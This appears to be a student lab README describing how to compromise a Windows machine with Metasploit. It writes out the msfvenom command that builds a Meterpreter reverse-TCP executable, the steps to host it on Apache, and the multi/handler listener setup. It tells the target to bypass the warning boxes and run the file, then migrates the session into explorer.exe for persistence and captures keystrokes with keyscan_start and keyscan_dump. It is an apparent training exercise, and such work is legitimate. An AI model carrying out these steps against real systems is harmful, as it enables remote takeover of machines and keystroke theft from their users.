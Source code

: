 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![Screenshot 2024-04-16 143132](https://github.com/Vinothini1711/Echoserver/assets/144300204/a807691c-37df-4ded-9242-4062b6d5be95)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Screenshot 2024-04-16 143439](https://github.com/Vinothini1711/Echoserver/assets/144300204/e1de975c-93ad-4167-a7c6-921eae9a9801)
copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-04-16 143448](https://github.com/Vinothini1711/Echoserver/assets/144300204/eaf50b1f-801f-4515-afb5-6727f11a58a7)
Start apache server
sudo systemctl apache2 start
![Screenshot 2024-04-16 143511](https://github.com/Vinothini1711/Echoserver/assets/144300204/ab7fe513-a6a8-4e23-b8e5-1665195b344c)
Check the status of apache2
![Screenshot 2024-04-16 143554](https://github.com/Vinothini1711/Echoserver/assets/144300204/9857a3f9-147d-41a7-a1c3-32274f494a18)
Invoke msfconsole:
![Screenshot 2024-04-16 143610](https://github.com/Vinothini1711/Echoserver/assets/144300204/cbf109d5-bb84-4d84-af83-893a0c7ddad8)
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
![Screenshot 2024-04-16 143844](https://github.com/Vinothini1711/Echoserver/assets/144300204/7defa3b3-ad2f-4ed8-b026-862a5b0a8325)
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
